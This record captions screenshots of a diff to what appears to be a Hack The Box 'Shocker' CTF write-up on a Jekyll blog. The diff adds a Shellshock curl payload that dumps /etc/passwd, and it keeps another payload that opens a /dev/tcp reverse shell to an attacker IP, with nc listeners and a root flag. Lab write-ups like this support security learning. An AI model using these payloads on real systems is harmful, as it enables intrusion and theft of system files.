

Before and after one commit to Liodeus/liodeus.github.io, a Jekyll site: the page built from _posts/2020-07-19-shocker.md, in a window 1280 px wide and 1400 px high, scrolled down 2959 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Add files via upload

````diff
--- a/_posts/2020-07-19-shocker.md
+++ b/_posts/2020-07-19-shocker.md
@@ -132,17 +132,56 @@ Just an uptime test script
 
 ------
 
+First I tried this one liner that I found here [https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271) :
+
+```bash
+curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://10.10.10.56/cgi-bin/user.sh
+
+root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+sys:x:3:3:sys:/dev:/usr/sbin/nologin
+sync:x:4:65534:sync:/bin:/bin/sync
+games:x:5:60:games:/usr/games:/usr/sbin/nologin
+man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
+lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
+mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
+news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
+uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
+proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
+www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
+backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
+list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
+irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
+gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
+nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
+systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
+systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
+systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
+systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
+syslog:x:104:108::/home/syslog:/bin/false
+_apt:x:105:65534::/nonexistent:/bin/false
+lxd:x:106:65534::/var/lib/lxd/:/bin/false
+messagebus:x:107:111::/var/run/dbus:/bin/false
+uuidd:x:108:112::/run/uuidd:/bin/false
+dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
+sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
+shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
+```
+
+Nice, it is vulnerable to Shellshock ! Now let's get a reverse shell. First start a nc listener :
+
 ```bash
 nc -lvp 1234
 ```
 
-Now execute the exploit.
-
-[http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
+Now execute the exploit, I took the reverse shell from here : [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
 
 ```bash
 curl -H "user-agent: () { :; }; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.4/1234 0>&1" http://10.10.10.56/cgi-bin/user.sh
 ```
+
+And there we have a reverse shell !
 
 ```bash
 nc -lvp 1234
@@ -155,7 +194,7 @@ whoami
 shelly
 ```
 
-So we're not root, let's escale to root !
+So we're not root, let's escalate to root ! First thing that I do when I don't have "root" privileges is to run the following command :
 
 ```bash
 sudo -l
@@ -187,7 +226,7 @@ listening on [any] 12345 ...
 10.10.10.56: inverse host lookup failed: Unknown host
 connect to [10.10.14.4] from (UNKNOWN) [10.10.10.56] 60392
 /bin/sh: 0: can't access tty; job control turned off
-# whoami
+whoami
 root
 ```
 
@@ -210,8 +249,8 @@ cat /home/shelly/user.txt
 ### Root.txt
 
 ```bash
-# find / -name root.txt
+find / -name root.txt
 /root/root.txt
-# cat /root/root.txt
+cat /root/root.txt
 52c2715605d70c7619030560dc1ca467
 ```
````
